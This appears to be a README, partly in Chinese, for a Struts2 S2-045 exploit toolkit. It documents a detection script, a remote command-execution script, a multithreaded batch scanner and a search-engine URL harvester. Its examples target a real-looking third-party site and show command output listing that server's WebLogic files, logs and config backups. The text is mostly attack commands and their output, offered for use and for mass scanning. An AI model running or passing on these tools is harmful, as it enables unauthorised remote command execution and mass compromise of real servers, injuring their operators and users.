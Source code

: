 ### USage

#### 检测漏洞POC
python s2_045.py http://job.10086.cn/company/anouncement/showAnouncement.action

```bash
>python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action
[Loopholes exist] http://job.10086.cn/company/anouncement/showAnouncement.action
```
#### 漏洞利用POC（cmd版）
python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action

```bash
>python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action
[Loopholes exist] http://job.10086.cn/company/anouncement/showAnouncement.action
[cmd]>>ls
autodeploy
bin
career2.log
career2.log.2017-02-01
career2.log.2017-02-02
career2.log.2017-02-03
career2.log.2017-02-04
career2.log.2017-02-05
career2.log.2017-02-06
career2.log.2017-02-07
career2.log.2017-02-08
career2.log.2017-02-09
career2.log.2017-02-10
career2.log.2017-02-11
career2.log.2017-02-12
career2.log.2017-02-13
career2.log.2017-02-14
career2.log.2017-02-15
career2.log.2017-02-16
career2.log.2017-02-17
career2.log.2017-02-18
career2.log.2017-02-19
career2.log.2017-02-20
career2.log.2017-02-21
career2.log.2017-02-22
career2.log.2017-02-23
career2.log.2017-02-24
career2.log.2017-02-25
career2.log.2017-02-26
career2.log.2017-02-27
career2.log.2017-02-28
career2.log.2017-03-01
career2.log.2017-03-02
career2.log.2017-03-03
career2.log.2017-03-04
career2.log.2017-03-05
career2.log.2017-03-06
config
config20150826.tar.gz
config20151204.tar.gz
console-ext
edit.lok
fileRealm.properties
init-info
lib
pending
security
servers
shutdown.py
startManagedWebLogic_readme.txt
startWebLogic.sh
tmp

```
#### 多线程批量检测脚本
python S2_045_thread.py（填写url.txt后运行）

```bash
填写url.txt文件，每行一个url地址(url中含.action/.do的地址)，运行完以后会生成一个result.txt文件存放存在漏洞的url
```

#### 利用搜索引擎批量检测脚本
想要采集网站中带.action/.do地址的，请看：[Search_S2_045](https://github.com/tengzhangchao/Struts2_045-Poc/tree/master/Search_S2_045)

